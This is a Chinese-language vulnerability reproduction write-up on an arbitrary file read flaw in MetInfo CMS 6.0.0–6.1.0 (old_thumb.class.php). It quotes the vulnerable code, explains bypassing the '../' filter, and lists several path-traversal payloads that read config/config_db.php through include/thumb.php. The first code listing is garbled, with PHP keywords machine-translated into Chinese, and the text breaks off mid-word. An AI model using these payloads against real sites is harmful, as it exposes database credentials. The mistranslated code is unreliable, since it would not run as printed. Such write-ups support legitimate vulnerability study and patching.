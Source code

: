 MetInfo 任意文件读取
====================

一、漏洞简介
------------

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo
6.0.0\~6.1.0版本中的
old\_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

二、漏洞影响
------------

MetInfo 6.0.0 MetInfo 6.1.0

三、复现过程
------------

### 漏洞分析

进攻分析
看下\\MetInfo6\\app\\system\\include\\module\\old\_thumb.class.php

    <？php 
    ＃MetInfo企业内容管理系统
    ＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

    define（'IN_MET'）或 退出（'No权限'）;

    load :: sys_class（'web'）;

    class  old_thumb  扩展了 网络 {

          公共 功能 doshow （） { 全局 $ _M;


            $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;


            if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
                header（“ Content-type：image / jpeg”）; 
                ob_start（）; 
                readfile（$ dir）; 
                ob_flush（）; 
                flush（）; 死 ;         }



            if（$ _M [ 'form' ] [ 'pageset' ]）{ 
              $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

            } else { 
              $ path = $ dir; 
            } 
            $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;









                readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
                ob_flush（）; 
                flush（）; 
            }

        } 
    }

    ＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。
    ＃版权所有（C）MetInfo Co.，Ltd.（http://www.metinfo.cn）。版权所有。
    ？>

从代码中看用看到，\$dir直接由\$\_GET\[\'dir\'\]传递进来，并将../置空。目标是进入到第一个，如果里面的readfile(\$dir);，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断\$dir中http字符串的首次出现位置，实质上，要进入到这个if语句里面，\$dir中必须包含http字符串。里面的将\$dir中包含\$\_M\[\'url\'\]\[\'site\'\]的部分放置空，这里可以不用管。

![](./resource/Metinfo任意文件读取/media/rId25.png)

从上面的分析可以构造出有效负载，只要\$dir里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用\..././来进行目录替换，因为../会被置空，所以最终payload如下

    ?dir=..././http/..././config/config_db.php
    ?dir=.....///http/.....///config/config_db.php
    ?dir=http/.....///.....///config/config_db.php
    ?dir=http\..\..\config\config_db.php

### 漏洞复现

要先找到调用old\_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old\_thumb.class.php

    <?php
    # MetInfo Enterprise Content Management System
    # Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
    define('M_NAME', 'include');
    define('M_MODULE', 'include');
    define('M_CLASS', 'old_thumb');
    define('M_ACTION', 'doshow');
    require_once '../app/system/entrance.php';
    # This program is an open source system, commercial use, please consciously to purchase commercial license.
    # Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
    ?>

所以我们通过thumb.php将构造好的\$dir传入即可。

![](./resource/Metinfo任意文件读取/media/rId27.png)

可以看到成功的读取到了config/config\_
